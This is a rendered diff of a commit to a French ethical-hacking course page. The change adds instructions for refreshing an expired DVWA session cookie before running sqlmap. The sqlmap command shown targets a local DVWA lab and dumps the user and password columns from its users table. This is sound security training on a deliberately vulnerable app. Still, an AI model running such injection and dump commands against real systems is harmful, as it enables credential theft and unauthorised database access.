

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs(jour1): ajoute renouvellement cookie avant sqlmap

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -762,9 +762,17 @@ Au lieu de `1` (un seul utilisateur normalement). Le flag `-b` envoie le cookie
 1. Lancer sqlmap sur le point d'injection détecté
 2. Cibler la base `dvwa`, la table `users`, les colonnes `user,password`
 
+> 🔄 **Cookie expiré (HTTP 302) ?** Le cookie DVWA expire après quelques minutes. Pas besoin de refaire le LAB-2 — renouvelez-le avec :
+> ```bash
+> source env.sh && bash labs_resolution/jour-01/setup_dvwa.sh
+> ```
+> Ceci écrase `/tmp/dvwa_cookie.txt` avec un cookie frais (login + `security=low`).
+
 **Commande :**
 ```bash
 cd rendu_labs/jour-01
+# 🔄 Si cookie expiré, décommentez la ligne ci-dessous :
+# source env.sh && bash ../../labs_resolution/jour-01/setup_dvwa.sh
 sqlmap -u "http://localhost:8088/vulnerabilities/sqli/?id=1&Submit=Submit" \
   --load-cookies=/tmp/dvwa_cookie.txt \
   -D dvwa -T users -C user,password --dump --batch --no-cast --threads=3
````
